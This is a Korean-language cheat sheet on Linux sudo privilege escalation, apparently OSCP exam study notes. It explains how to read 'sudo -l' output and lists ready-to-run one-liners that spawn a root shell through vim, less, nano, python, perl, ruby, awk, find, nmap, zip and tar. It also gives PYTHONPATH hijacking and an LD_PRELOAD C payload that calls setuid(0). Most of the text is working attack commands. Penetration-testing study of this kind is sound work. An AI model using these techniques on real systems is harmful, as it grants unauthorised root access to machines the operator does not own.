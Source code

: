 # sudo 권한 상승

## 권한 확인

```bash
sudo -l        # 현재 사용자의 sudo 권한 확인 (필수)
sudo -V        # sudo 버전 확인 (CVE 취약점 확인용)
```

## 주요 출력 형태

```
# 모든 명령어 실행 가능 (비밀번호 필요)
(ALL : ALL) ALL

# 모든 명령어 실행 가능 (비밀번호 불필요)
(ALL) NOPASSWD: ALL

# 특정 명령어만 실행 가능 (비밀번호 불필요)
(ALL) NOPASSWD: /usr/bin/vim, /bin/bash

# 특정 사용자로 실행
(www-data) NOPASSWD: /usr/bin/python

# 환경변수 설정 허용
(ALL) SETENV: NOPASSWD: /usr/bin/python
```

## 바이너리별 권한 상승 기법

### 편집기/뷰어 활용

```bash
# vim
sudo vim -c ':!/bin/bash'
sudo vim
:set shell=/bin/bash
:shell

# less / more / man
sudo less /etc/hosts
!/bin/bash

# nano
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

### 프로그래밍/스크립팅 도구

```bash
# python
sudo python -c 'import os; os.system("/bin/bash")'
sudo python -c 'import pty; pty.spawn("/bin/bash")'

# perl
sudo perl -e 'exec "/bin/bash";'

# ruby
sudo ruby -e 'exec "/bin/bash"'

# lua
sudo lua -e 'os.execute("/bin/bash")'

# awk
sudo awk 'BEGIN {system("/bin/bash")}'
```

### 파일/명령어 실행 도구

```bash
# find
sudo find / -name test -exec /bin/bash \; -quit

# nmap (대화형 모드)
sudo nmap --interactive
!sh

# zip/unzip
sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"

# tar
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### 환경 변수 활용

```bash
# PYTHONPATH 활용 (모듈 하이재킹)
cd /tmp
echo 'import os; os.system("/bin/bash")' > os.py
sudo PYTHONPATH=/tmp python -c 'import os'

# LD_PRELOAD 활용
cat > /tmp/root.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() { setuid(0); system("/bin/bash"); }
EOF
gcc -fPIC -shared -o /tmp/root.so /tmp/root.c -nostartfiles
sudo LD_PRELOAD=/tmp/root.so find
```

1. **쉘 직접 접근 명령어**: `/bin/bash`, `/bin/sh` 등이 있으면 직접 쉘 획득 가능
2. **인터프리터**: `python`, `perl`, `ruby` 등이 있으면 코드 실행을 통해 쉘 획득 가능
3. **텍스트 편집기**: `vim`, `nano`, `emacs` 등이 있으면 쉘 명령어 실행 기능을 통해 쉘 획득 가능
4. **파일 검색/조작 도구**: `find`, `awk`, `sed` 등이 있으면 명령어 실행 옵션을 통해 쉘 획득 가능
5. **기타 유틸리티**: `tar`, `zip`, `man`, `less` 등이 있으면 내부 명령어 실행 기능을 통해 쉘 획득 가능

### 주요 확인 사항

- 명령어 앞에 경로(`/usr/bin/`)가 있는지 확인 -> 전체 경로가 지정되어 있으면 해당 바이너리만 실행 가능
- 와일드카드(`*`)가 있는지 확인 -> 추가 옵션이나 인자 전달 가능성
- 환경 변수 설정이 가능한지 확인 -> `LD_PRELOAD`, `LD_LIBRARY_PATH` 등을 이용한 권한 상승 가능성

## 3. 대표적인 권한 상승 예시

### (1) /bin/bash 실행 권한이 있을 때

```bash
sudo /bin/bash
```

### (2) python이 있을 때

```bash
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```

### (3) vi/vim이 있을 때

```bash
sudo vim -c ':!/bin/bash'
```

### (4) find가 있을 때

```bash
sudo find . -exec /bin/bash \; -quit
```

### (5) tar가 있을 때

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

### (6) less가 있을 때

```bash
sudo less /etc/hosts
!bash
```

## 4. GTFOBins 참고

- [https://gtfobins.github.io/](https://gtfobins.github.io/) 에서 sudo 권한이 있는 바이너리의 권한 상승 방법을 확인할 수 있습니다.

## 5. 주의사항

- OSCP 시험에서는 root shell 획득 후 바로 증거(flag) 파일을 확인하고, 추가적인 파괴적 행위는 금지됩니다.
- 모든 권한 상승 시도는 시험 규정 내에서만 진행해야 합니다.

---

> 위 내용은 OSCP 시험에서 허용되는 수동 침투 방법만을 다룹니다.
